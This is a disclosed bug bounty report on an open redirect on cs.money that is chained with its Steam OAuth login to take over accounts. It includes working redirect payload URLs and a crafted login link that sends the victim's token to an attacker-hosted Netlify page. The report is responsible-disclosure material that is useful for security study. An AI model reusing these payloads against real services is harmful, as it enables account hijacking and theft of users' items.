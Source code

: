 # [cs.money] Open Redirect Leads to Account Takeover

## Report Details
- **Report ID**: 905607
- **URL**: https://hackerone.com/reports/905607
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-22T19:34:01.920Z
- **Disclosed**: 2020-09-30T12:31:27.285Z

## Reporter
- **Username**: abdilahrf_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:

I found an open redirect on `https://cs.money` domain, using this payload `https://cs.money///google.com` we can redirect into any domain that we want, you can see the request and response from this image below :

███

## Steps To Reproduce:

The final payload is having an account takeover as the impact, by chaining the openredirect vulnerability with login oauth function, the steps to reproduce is below:

  1. Open this url `https://auth.dota.trade/login?redirectUrl=https://cs.money///loving-turing-29a494.netlify.app%2523&callbackUrl=https://cs.money///loving-turing-29a494.netlify.app%2523` , the login url was gotten from `cs.money` index page button `sign in through steam`:

█████████

  2. Login as usual, the application will redirect you to `https://loving-turing-29a494.netlify.app/#?token=Dlk9sGd8zc6OvxlITijQR&redirectUrl=https://cs.money///loving-turing-29a494.netlify.app#` you will see like this image :
███████
  3.the  attacker already received the victim token on the attacker listener 
███

**If the vulnerability requires hosted server, please, let us know if it is a public or a local one you've tested vulnerability on.**
### Public
My POC Hosted here : loving-turing-29a494.netlify.app

I also create the video POC that show an attacker take over an victim account :
█████

## Impact

Attacker gained full control of the victim account, was able to change the trade-offer link into the attacker link and redeem all the items into attacker account and almost can do anything.

## Attachments
No attachments
